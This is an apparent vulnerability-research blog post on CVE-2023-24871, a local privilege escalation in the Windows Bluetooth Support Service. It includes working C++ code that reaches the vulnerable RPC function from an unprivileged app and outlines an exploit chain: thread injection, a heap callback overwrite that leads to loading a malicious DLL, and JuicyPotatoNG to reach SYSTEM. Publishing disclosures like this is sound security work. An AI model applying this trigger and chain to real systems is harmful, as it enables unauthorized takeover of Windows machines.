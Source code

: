 ```yaml
---
layout: post
title: CVE-2023-24871 - LPE
master: bthadv-2022
---
```

<script>
addCustomTypes(['BR_VALUE_TYPE', 'BR_BUFFER', 'BR_EVENT_PARAMETER', 'BiRtCreateEventForAppFn', 'GUID', 'HMODULE', 'function', 'HRESULT', 'BUFFER', 'INT']);
addCustomNames(['trigger', 'UseExtendedFormat', 'manufacturerData', 'CompanyId', 'Advertisement', 'm_Size', 'm_Data', 'm_Name', 'm_Type', 'm_IntValue', 'm_BufValue', 'name', 'value', 'advData', 'eventParameters', 'biWinRtModule', 'createEventForApp', 'zeroGuid', 'eventParams', 'bthEventBrokerGuidBytes', 'bthEventBrokerGuid', 'vector']);
</script>

*[← CVE-2023-24871 - RCE](/x-cve-2023-24871-rce)* | *[CVE-2023-23388 →](/v-cve-2023-23388)*

The path to LPE using CVE-2023-24871 is much simpler than the paths leading to RCE, as there's only a single module that's affected. And of course, the attack is local, so there's no need to mess around with two devices. This is a pretty classic LPE case on Windows - a privileged service runs an RPC server that unprivileged applications can connect to. Data sent from the unprivileged client can trigger a vulnerability on the server, and a wild LPE manifests.

## contents
---
- [1.0 reachability](#10-reachability)
- [2.0 prerequisites](#20-prerequisites)
- [3.0 poc + exploit](#30-poc--exploit)

## [1.0] reachability
---
In this case, there's only a single vulnerable module, and that's once again the **Bluetooth Support Service**, that we'll once again call **bthserv**. This service runs an RPC server that unprivileged applications can connect to. The interface that connects unprivileged applications to the RPC server is public and exposed via WinRT API under [`Windows.Devices.Bluetooth`](https://learn.microsoft.com/en-us/uwp/api/windows.devices.bluetooth?view=winrt-22621). The interface allows applications to do a whole lot of things involving BLE, including setting up outgoing advertisements via [`BluetoothLEAdvertisementPublisher`](https://learn.microsoft.com/en-us/uwp/api/windows.devices.bluetooth.advertisement.bluetoothleadvertisementpublisher?view=winrt-22621) objects.

The vulnerable function is reachable through the following code path in `Windows.Internal.Bluetooth.dll` that's used by the service:

```txt
Windows.Internal.Bluetooth.dll!BthLELib_ADValidateEx()
Windows.Internal.Bluetooth.dll!Windows::Devices::Bluetooth::EventBroker::BluetoothLEAdvertisementPublisherTrigger::s_UnpackParameters(struct _BR_EVENT_PARAMETERS *,enum BluetoothEventBroker_AdvertisementPublisherVersion)
Windows.Internal.Bluetooth.dll!<lambda>(void)()
Windows.Internal.Bluetooth.dll!wil::ResultFromException<<lambda>(void)>()
Windows.Internal.Bluetooth.dll!Windows::Devices::Bluetooth::EventBroker::BluetoothLEAdvertisementPublisherTrigger::Create(class std::shared_ptr<class BluetoothEventBroker>,struct _BROKERED_EVENT *,struct _BR_EVENT_PARAMETERS *,enum _BR_EVENT_CALL_REASON,void *,unsigned short const *,unsigned long,class std::shared_ptr<class BaseTrigger> &)
Windows.Internal.Bluetooth.dll!<lambda>(void)()
Windows.Internal.Bluetooth.dll!wil::ResultFromException<<lambda>(void)>()
Windows.Internal.Bluetooth.dll!BluetoothEventBroker::s_OnCreateEvent(enum _BR_EVENT_CALL_REASON,struct _BROKER *,struct _BROKERED_EVENT *,struct _BR_EVENT_PARAMETERS *,unsigned short const *,void *,void *,void *,void * *,unsigned long *,struct _BR_NEW_EVENT_INFORMATION *)
BrokerLib.dll!Broker::BrokerBase::CreateBrokeredEventEA()
BrokerLib.dll!BrpCreateBrokeredEvent()
BrokerLib.dll!_BriCreateEvent()
rpcrt4.dll!Invoke()
...
```

At the bottom of the callstack is the familiar `rpcrt4.dll!Invoke()`, meaning that the call comes from an RPC call issued by a client. To reach the function, it's sufficient to issue this RPC call from an application that previously connected to the server. A standard way of doing that would be to use the [NtObjectManager](https://www.powershellgallery.com/packages/NtObjectManager) library, but here we have an opportunity to do it in a more managed way. Note that one of the entries in the call stack is `BluetoothLEAdvertisementPublisherTrigger::Create`, which points towards the server creating a  [`BluetoothLEAdvertisementPublisherTrigger`](https://learn.microsoft.com/en-us/uwp/api/windows.applicationmodel.background.bluetoothleadvertisementpublishertrigger?view=winrt-22621) object. And indeed, this code path can be triggered by creating such an object in an unprivileged application, filling it with the appropriate data, and registering it under a background task. For example, the following C++/CX WinRT code would do the job:

```cpp
auto trigger = ref new BluetoothLEAdvertisementPublisherTrigger();
trigger->UseExtendedFormat = true;

auto manufacturerData = ref new BluetoothLEManufacturerData();
manufacturerData->CompanyId = 0x1234;
trigger->Advertisement->ManufacturerData->Append(manufacturerData);

auto builder = ref new BackgroundTaskBuilder();
builder->SetTrigger(trigger);
builder->Register();
```

The client callstack looks like:
```txt
rpcrt4.dll!NdrpClientCall3()
rpcrt4.dll!NdrClientCall3()
biwinrt.dll!RBiRtCltCreateEventForApp(void *)
biwinrt.dll!BiRtCreateEventForApp(_GUID * EventId=0x000001977a2ea508, const _GUID * BrokerId=0x00007ffd034fd5b0, unsigned long EventFlags=0, _BR_EVENT_PARAMETERS * Parameters=0x00000073574fe518)
Windows.Devices.Bluetooth.dll!Windows::ApplicationModel::Background::BluetoothLEAdvertisementPublisherTrigger::Create(void)
biwinrt.dll!Windows::ApplicationModel::Background::CBackgroundTaskBuilder::Register(Windows::ApplicationModel::Background::IBackgroundTaskRegistration * * Task=0x000001977d575a40)
... (this is on a different thread than the code which executes above)
```

One problem with the approach above is that advertisement data that would otherwise trigger the vulnerability will be rejected by local checks in `BluetoothLEAdvertisementPublisherTrigger::Create`. The function ensures that there are at most **255** sections in the advertisement data and exits early if that's not the case. To prevent this from happening, we could dirty patch the checks since they're local, but that becomes a mess to deal with across different versions of the DLL.

Initially I meant to reverse the format that the requests were serialized to in RPC packets, but there turned out to be a path of less resistance. Looking at the call stacks above, we can see that there's an intermediate layer between the RPC runtime and WinRT. The server side callstack contains a few entries from `BrokerLib.dll`, with client side counterparts in `biwinrt.dll`. The function names point towards there being bluetooth "events" that the requests are transformed to and from. Long story short, reversing the structures here was pretty simple and I had working code fairly quickly. You can find out more about this middle layer in the post describing the other vulnerability, as it's present in the RPC server code in `BrokerLib.dll`.

The code below can then be used to trigger the vulnerability:
```cpp
// Reverse engineered from Windows.Devices.Bluetooth.dll
enum class BR_VALUE_TYPE
{
    INT = 0,
    BUFFER = 4,
};

// Reverse engineered from Windows.Devices.Bluetooth.dll
struct __declspec(align(8)) BR_BUFFER
{
    uint64_t m_Size;
    const void* m_Data;
};

// Reverse engineered from Windows.Devices.Bluetooth.dll
struct __declspec (align(8)) BR_EVENT_PARAMETER
{
    BR_EVENT_PARAMETER(const wchar_t* name, int32_t value)
    {
        m_Name = name;
        m_Type = BR_VALUE_TYPE::INT;
        m_IntValue = value;
    }

    BR_EVENT_PARAMETER(const wchar_t* name, const BR_BUFFER& value)
    {
        m_Name = name;
        m_Type = BR_VALUE_TYPE::BUFFER;
        m_BufValue = value;
    }

    const wchar_t* m_Name;
    BR_VALUE_TYPE m_Type;
    union
    {
        int32_t m_IntValue;
        BR_BUFFER m_BufValue;
    };
};

HRESULT TriggerVuln(const std::vector<uint8_t>& advData)
{
    // Fetch the pointer to BiRtCreateEventForApp
    using BiRtCreateEventForAppFn = HRESULT(GUID&, GUID&, int64_t, BR_BUFFER&);
    HMODULE biWinRtModule = GetModuleHandle(L"biwinrt.dll");
    std::function<BiRtCreateEventForAppFn> createEventForApp = reinterpret_cast<BiRtCreateEventForAppFn*>(GetProcAddress(biWinRtModule, "BiRtCreateEventForApp"));
    
    // event parameters, taken from BluetoothLEAdvertisementPublisherTrigger::Create
    std::vector<BR_EVENT_PARAMETER> eventParameters;
    eventParameters.emplace_back(L"EventType", 4);
    eventParameters.emplace_back(L"Version", 3);
    eventParameters.emplace_back(L"UseExtendedFormat", 1);
    eventParameters.emplace_back(L"IsAnonymous", 0);
    eventParameters.emplace_back(L"IncludeTransmitPowerLevel", 0);
    eventParameters.emplace_back(L"AdvertisementPayload", BR_BUFFER{ advData.size(), advData.data() });
    
    GUID zeroGuid = {};
    BR_BUFFER eventParams = { eventParameters.size(), eventParameters.data() };
    
    // Bluetooth GUID, taken from Windows.Devices.Bluetooth.dll
    uint8_t bthEventBrokerGuidBytes[] = { 0x62, 0xE9, 0xCA, 0xFC, 0x22, 0x47, 0xC7, 0x40, 0xA4, 0x6D, 0xFE, 0x51, 0x53, 0x28, 0x07, 0x23 };
    GUID bthEventBrokerGuid = {};
    memcpy(&bthEventBrokerGuid, bthEventBrokerGuidBytes, sizeof(GUID));
    
    // Send our event
    return createEventForApp(zeroGuid, bthEventBrokerGuid, 0, eventParams);
}
```

Calling the function above with appropriate advertisement data as the parameter will propagate the data all the way to the vulnerable function, triggering the vulnerability in **bthserv**.

## [2.0] prerequisites
---
Unlike the RCE case, the prerequisites for an LPE to be achievable are pretty standard. The only condition needed for a system to be vulnerable is for Bluetooth to be enabled. Even when the local controller doesn't support or enable extended advertising, the code path to the vulnerable function doesn't check whether the client request is asking for extended advertising (this happens further down the bluetooth stack).

Connecting to the RPC server that's hosted by **bthserv** requires the calling application to be in AppContainer and declare the [Bluetooth capability](https://learn.microsoft.com/en-us/windows/uwp/packaging/app-capability-declarations). This prevents regular native applications from communicating with the server, but they can just start an AppContainer with the capability and they'll be good to go. In my PoC / exploit I opted to just inject a thread into `StartMenuExperienceHost.exe`, since that process already hosts an app with the required capability.

## [3.0] poc + exploit
---
There's both a simple PoC and a fully functional exploit on [github]. Unlike classic exploits which go from read/write primitives to stack pivot + ROP chain, this one is a little more ad-hoc, as I didn't want to dedicate too much time to it. It relies on overwriting certain heap memory that holds a pointer to a callback along with data that's passed as the only argument to the callback. We overwrite the callback to point towards `LoadLibraryW` and the argument to point towards a file path in memory of one of the DLLs. We deploy a malicious DLL at this file path and let `LoadLibraryW` load it. Since **bthserv** runs as **LOCAL SERVICE**, what's left is to escalate to **SYSTEM**. I used [JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG) for that purpose. You can check out the video below for the demonstration of the exploit, and the github page for more details on how the exploit works and how to run it.

<br>

<iframe preload="none" style="border:2px solid white; display:block; margin:auto; max-width:520px;" align="center" width="100%" height="300" src="/assets/bthadv-2022/exploit.webm" frameborder="0" type="video/mp4"> </iframe>

*[← CVE-2023-24871 - RCE](/x-cve-2023-24871-rce)* | *[CVE-2023-23388 →](/v-cve-2023-23388)*